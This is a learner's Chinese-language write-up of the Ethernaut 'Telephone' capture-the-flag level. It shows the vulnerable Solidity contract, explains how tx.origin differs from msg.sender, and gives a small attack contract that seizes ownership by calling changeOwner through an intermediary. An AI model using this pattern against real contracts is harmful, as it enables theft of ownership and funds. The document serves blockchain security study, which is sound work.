



```
Claim ownership of the contract below to complete this level.

  Things that might help

See the "?" page above, section "Beyond the console"
```


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```


就是先前看的 tx.origin的问题？


我们通过合约Attack直接调用Telephone的构造函数的话，owner是归谁？

```
本關主要是為了指出tx.origin跟msg.sender的分別，當以智能合約呼叫智能合約時，msg.sender在被呼叫智能合約中，會是呼叫者智能合約的地址，而tx.origin則是最初呼叫智能合約的個人錢包地址。
```


所以我们通过attack call telephone时，第一步的constructor后，owner是telephone合约的，而我们执行完 changeOwner后，owner就会变成 attacker了~


写好合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract Telephone {
    address levelInstance;
    
    constructor(address _levelInstance)  {
      levelInstance = _levelInstance;
    }
  
  function claim() public {
    ITelephone(levelInstance).changeOwner(msg.sender);
  }

}
```


填入levelInstance的地址，deploy。




然后claim即可。

此时查看题目合约的owner：




但现在submit instance的gas费用怎么这么高啊？？？


。。。